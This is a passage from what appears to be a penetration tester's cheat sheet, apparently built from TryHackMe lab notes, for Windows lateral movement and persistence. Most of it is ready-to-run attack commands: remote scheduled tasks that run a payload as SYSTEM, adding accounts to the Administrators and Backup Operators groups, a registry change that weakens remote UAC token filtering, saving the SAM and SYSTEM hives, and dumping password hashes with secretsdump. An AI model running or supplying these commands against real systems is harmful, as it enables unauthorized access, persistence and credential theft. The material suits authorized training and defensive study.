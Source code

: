 sc.exe \\TARGET delete servicename<br>

## Scheduled Tasks
### Same restrictions as sc
#### To Start:
schtasks /s TARGET /RU "SYSTEM" /create /tn "task1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 <br>

schtasks /s TARGET /run /TN "task1" <br>
## To Shutdown
schtasks /S TARGET /TN "THMtask1" /DELETE /F<br>

# Persistence
## Also Check Out:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md

## Add User To Admin Group
net localgroup administrators thmuser0 /add<br>
## Add To Backup Operators Group
### Note: Backup operators can read any file on machine which essentially means admin access, also adding to Remote Management Users group so we can RDP and WinRM. Also, UAC makes some restrictions when logging in remotely so update a register key<br>
### Setup
net localgroup "Backup Operators" user1 /add<br>
net localgroup "Remote Management Users" user1 /add<br>
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1<br>
After Login (Using Evil-WinRM )<br>
Get Sam & System Files<br>
reg save hklm\system system.bak<br>
reg save hklm\sam sam.bak<br>
download system.bak<br>
download sam.bak<br>
### Dump Hashes
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL<br>
# Special Privileges
#### We basically add SeBackupPrivilege and SeRestorePrivilege to our account<br>
